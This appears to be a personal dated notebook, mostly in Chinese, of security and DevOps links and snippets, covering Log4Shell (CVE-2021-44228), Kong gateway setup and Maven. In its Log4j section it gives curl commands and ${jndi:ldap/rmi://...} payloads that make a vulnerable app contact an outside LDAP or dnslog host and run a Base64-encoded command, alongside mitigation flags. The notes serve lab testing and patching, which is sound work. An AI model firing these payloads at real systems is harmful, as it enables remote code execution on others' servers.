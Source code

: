 # 202112
## 20211213
https://www.youtube.com/watch?v=7qoPDq41xhQ
CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)

https://github.com/xiajun325/apache-log4j-rce-poc
https://github.com/leonjza/log4jpwn
https://github.com/YfryTchsGD/Log4jAttackSurface
https://github.com/christophetd/log4shell-vulnerable-app

docker build . -t vulnerable-app
docker run -p 8081:8080 --name vulnerable-app vulnerable-app

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
curl 127.0.0.1:8081 -H 'X-Api-Version: ${jndi:ldap://78769f89.dns.1433.eu.org:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
这个对应的 https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2
是已经升级到 2.15.0 的

jdeps /app/spring-boot-application.jar
jdeps  -summary -recursive /app/spring-boot-application.jar

$ jdeps --class-path 'libs/*' -recursive sh-2.6.3.jar

jar tvf yourjar.jar | perl -nle'BEGIN{$depth=(shift)-1}print join(".", (split(/\//, (split)[-1]))[0..$depth])' 3

https://github.com/BugScanTeam/DNSLog

使用MSSQL加载运行CLR代码
http://blog.nsfocus.net/mssql-clr/

Apache Shiro 反序列化漏洞详解
https://paper.seebug.org/1782/

APACHE LOG4J2 远程代码执行漏洞处置手册
http://blog.nsfocus.net/apache-log4j2/

Apache Solr

Apache Struts2

Apache Flink

Apache Druid

spring-boot-strater-log4j2

## 20211210

Remote code injection in Log4j
https://github.com/advisories/GHSA-jfh8-c2jp-5v3q

【安全通报】Apache Log4j2 远程代码执行漏洞
https://nosec.org/home/detail/4917.html
  Vulfocus 靶场环境
  目前 Vulfocus 已经集成 Log4j2 环境，可通过以下链接启动环境测试：
  http://vulfocus.fofa.so/#/dashboard?image_id=3b8f15eb-7bd9-49b2-a69e-541f89c4216c

  漏洞利用及POC验证
  poc:
  ${jndi:ldap://xxxxx.dnslog.cn/exp}
  ${jndi:rmi://xxxxx.dnslog.cn/exp}
到这里获得一个 地址
http://dnslog.cn/
如：mixazx.dnslog.cn
本地 ping mixazx.dnslog.cn
Refresh Record，发现有记录
找一个有 log4j 日志使用的应用，发送

${jndi:ldap://mixazx.dnslog.cn/exp}
${jndi:rmi://mixazx.dnslog.cn/exp}
做为参数

Apache Log4j远程代码执行漏洞风险通报信息汇总
https://www.freebuf.com/articles/308151.html

POC：
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/azhao1981/apache-log4j-poc

【重要通知】关于Apache Log4j 2远程代码执行最新漏洞的风险提示
https://itsc.nju.edu.cn/7a/42/c41947a555586/page.htm
【紧急补救措施】

（1）  修改jvm参数 -Dlog4j2.formatMsgNoLookups=true     
（2）  修改配置log4j2.formatMsgNoLookups=True
（3）  将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
  TODO: 需要重启吗？还是写在bash里就可以了

Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
https://www.exploit-db.com/exploits/50581

RUBY
CVE-2021-41816: Buffer Overrun in CGI.escape_html
https://www.ruby-lang.org/en/news/2021/11/24/buffer-overrun-in-cgi-escape_html-cve-2021-41816/
CVE-2021-41819: Cookie Prefix Spoofing in CGI::Cookie.parse
https://www.ruby-lang.org/en/news/2021/11/24/cookie-prefix-spoofing-in-cgi-cookie-parse-cve-2021-41819/

Apache Shiro 反序列化漏洞详解
https://paper.seebug.org/1782/
Apache Storm 漏洞分析
https://paper.seebug.org/1780/
Identity Security Authentication Vulnerability
https://paper.seebug.org/1779/

八个技巧，防止远程办公时泄漏公司数据
https://www.freebuf.com/news/308054.html

基于容器ATT&CK矩阵模拟攻防对抗的思考
https://www.anquanke.com/post/id/257799

## 20211209

https://www.alibabacloud.com/blog/clb-alb-兩種負載平衡產品差異介紹_597952

## 20211208

+ kong -> k8s 后就找不到正确的 Ｐｒｏｔｏ和 ｐｏｒｔ了

Kong overwrites X-Forwarded-Proto header when already present #1823
https://github.com/Kong/kong/issues/1823

Kong系列（三）——Kong插件[IP Restriction]使用
https://zhuanlan.zhihu.com/p/68517991
KONG_REAL_IP_HEADER

Kong配置反向代理后获取原始IP
https://www.programminghunter.com/article/9313300473/

apigateway-kong(三)Proxy规则
https://blog.csdn.net/fvjuerh/article/details/96429866

使用 api-gw 让你的应用历史应用更加安全
https://konghq.com/blog/api-gateway-request-transformation/
https://docs.konghq.com/hub/kong-inc/request-transformer/

http://mockbin.org/
Mockbin allows you to generate custom endpoints to test, mock, and track HTTP requests & responses between libraries, sockets and APIs.

企业级API网关Kong系列
https://segmentfault.com/a/1190000019857235
【API网关Kong系列六】- 玩转Consumer
https://segmentfault.com/a/1190000019923741
【API网关Kong系列三】 - 战前预热
https://segmentfault.com/a/1190000019886923

https://www.cnblogs.com/it-deepinmind/p/14036488.html
3. Consumers 消费者
The Consumer object represents a consumer - or a user - of a Service. 
You can either rely on Kong as the primary datastore, or you can map the consumer list with your database to keep consistency between Kong and your existing primary datastore.

最简单的理解和配置consumer的方式是,将其于用户进行一一映射,即一个consumer代表一个用户（或应用）.但是对于KONG而言,这些都无所谓. Consumer的核心原则是您可以为其添加插件,从而自定义他的请求行为. 所以,或许您会有一个手机APP应用,并为他的每个版本都定义一个consumer, 又或者您有一个应用或几个应用,并为这些应用定义统一个consumer,这些都无所谓.
Consumer是使用Service的用户(eg: github账号就是一个Consumer是使用github Open API Service)
Consumer的核心原则是您可以为其添加Plugin插件,从而自定义他的请求行为.(eg: 安装kong Oauth2插件)
Consumer下可以创建多个APP(eg:您的github账号中您可以创建多个Github Apps )

我们新建一个plugin时，可以看到：
The CONSUMER ID that this plugin configuration will target. 
This value can only be used if authentication has been enabled so that the system can identify the user making the request. 
If left blank, the plugin will be applied to all consumers.

配置最佳实践
https://kubernetes.io/zh/docs/concepts/configuration/overview/

Jenkins API
https://www.cnblogs.com/anliven/p/13642675.html

## 20211207

https://github.com/SummitRoute/csp_security_mistakes

使用ModSecurity/App Protect模块构建NGINX WAF | NGINX公开课（2020年8-11月）
https://www.bilibili.com/video/BV15K41137h4?from=search&seid=16261941898413690538&spm_id_from=333.337.0.0

https://0xbharath.github.io/python-network-programming/protocols/dns/index.html

[dnspython](https://www.tutorialspoint.com/python_network_programming/python_dns_look_up.htm)

https://www.bilibili.com/video/BV1y64y1s7gi?from=search&seid=8749424551303216564&spm_id_from=333.337.0.0

## 20211203

https://iapp.org/news/a/chinas-draft-algorithm-regulations-a-first-for-consumer-privacy/
近日，中华人民共和国宣布了关于广泛使用算法推荐技术的规定草案，这是一个新的突破。
据一位专家说，这是全球第一个此类规定。由于中国很快将超过10亿互联网用户——约占全球互联网用户的20%——这些规定将覆盖全球近五分之一的用户。
https://digichina.stanford.edu/work/translation-internet-information-service-algorithmic-recommendation-management-provisions-opinon-seeking-draft/
CHINESE-LANGUAGE ORIGINAL
Source: http://www.cac.gov.cn/2021-08/27/c_1631652502874117.htm
互联网信息服务算法推荐管理规定（征求意见稿）

如果是加密的算法
https://iapp.org/news/a/de-identification-101-a-lawyers-guide-to-masking-encryption-and-everything-in-between/

IAPP A GLOBAL GUIDE TO CURRICULA
privacy_data_protection_in_academia_global_guide_to_curricula

https://iapp.org/style-guide/copy/

## 20211202

[Maven 读取环境变量](https://blog.csdn.net/hongweigg/article/details/54091148)

环境变量属性(所有的环境变量都可以用以env.开头的Maven属性引用)

使用mvn help:system命令可查看所有环境变量;

${env.JAVA_HOME}表示JAVA_HOME环境变量的值;


